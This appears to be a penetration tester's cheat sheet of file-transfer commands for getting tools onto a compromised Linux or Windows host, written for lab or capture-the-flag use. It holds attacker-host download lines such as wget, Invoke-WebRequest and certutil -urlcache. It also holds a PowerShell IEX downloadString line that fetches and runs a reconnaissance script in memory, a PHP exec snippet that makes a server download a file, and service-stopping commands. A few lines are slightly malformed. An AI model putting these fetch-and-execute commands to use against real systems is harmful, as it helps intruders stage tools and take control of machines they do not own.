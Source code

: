 # Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

# Windows 
Powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.181.128/adPEAS.ps1')"

Invoke-WebRequest -Uri ATTACK_IP/FILE -OutFile FILE NAME

# php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>

powershell Invoke-WebRequest -Uri http://10.10.14.15/plink.exe -OutFile c:\Users\shaun\Downloads\plink.exe

# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE
SCP -i KEY FILE user@target:/tmp/FILE
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.



# Certutil
certutil -urlcache -f http://IP/FILE OUTPUTFILENAME



# FTP
python -m pyftpdlib 21
ftp 10.10.10.10
# stop service
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 



Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1

 